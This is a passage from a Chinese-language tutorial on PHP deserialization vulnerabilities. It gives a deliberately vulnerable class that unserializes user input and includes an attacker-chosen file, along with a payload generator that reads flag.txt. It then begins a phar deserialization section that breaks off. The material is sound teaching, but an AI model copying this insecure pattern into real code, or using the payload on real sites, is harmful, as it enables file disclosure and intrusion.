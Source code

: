 反序列化会根据字符串中的属性实例化一个对象。  
如果类中有漏洞，实例化用的字符串又可被访问者控制，那么攻击者便有可能利用类中的漏洞。
举个最基础的攻击的栗子
```php
/*-----------------------网站源码-----------------------*/
<?php 
class web_content
{
    public $file = "fake.txt";

    function show_fakenews()
    {
        echo "Here is today's fake news!<br>";
        include($this->file);
    }


}

if(array_key_exists("file",$_GET))
{
    $html = unserialize($_GET['file']);
}
else
{
    echo "file=web_content";
    echo "<br><br><br>";
    highlight_file(__FILE__);
    exit();
}
$html->show_fakenews();
?>

/*-----------------------生成Payload-----------------------*/
<?php
class web_content
{
    public $file = "flag.txt";

    function show_fakenews()
    {
        echo "Here is today's fake news!<br>";
        include($this->file);
    }
}

$flag = new web_content();
echo serialize($flag); //O:11:"web_content":1:{s:4:"file";s:8:"flag.txt";}
?>
```
![](imgs/php_serialize.png)
#### phar反序列化漏洞
phar是一种归档文件，由php的函数生成。  
在生成phar文件的时候，不仅可以加入要压缩的普通的文件，还可以向文件中加入序列化字符串。  
当php文件操作类函数对phar解析的时候，会反序列化文件中的序列化字符串。序列化的操作可能会给攻击者可乘之机。  
举个栗子
```php
```